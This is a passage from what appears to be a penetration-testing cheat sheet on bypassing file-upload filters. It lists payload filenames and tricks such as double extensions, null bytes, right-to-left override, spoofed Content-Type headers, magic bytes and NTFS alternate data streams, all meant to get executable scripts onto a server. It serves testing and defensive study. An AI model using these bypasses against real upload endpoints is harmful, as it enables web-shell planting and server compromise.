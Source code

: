 * Coldfusion: `.cfm, .cfml, .cfc, .dbm`

### Upload tricks

- Use double extensions : `.jpg.php, .png.php5`
- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
- Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
- Null byte (works well against `pathinfo()`)
    * `.php%00.gif`
    * `.php\x00.gif`
    * `.php%00.png`
    * `.php\x00.png`
    * `.php%00.jpg`
    * `.php\x00.jpg`
- Special characters
    * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
    * Whitespace and new line characters
        * `file.php%20`
        * `file.php%0d%0a.jpg`
        * `file.php%0a`
    * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
    * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
    * Multiple special characters: `file.jsp/././././.`
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`
    * Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
    * Set the Content-Type twice: once for unallowed type and once for allowed.
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
        * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
        * JPG: `\xff\xd8\xff`
        * GIF: `GIF87a` OR `GIF8;`
    * Shell can also be added in the metadata
- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")

### Filename vulnerabilities

Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.
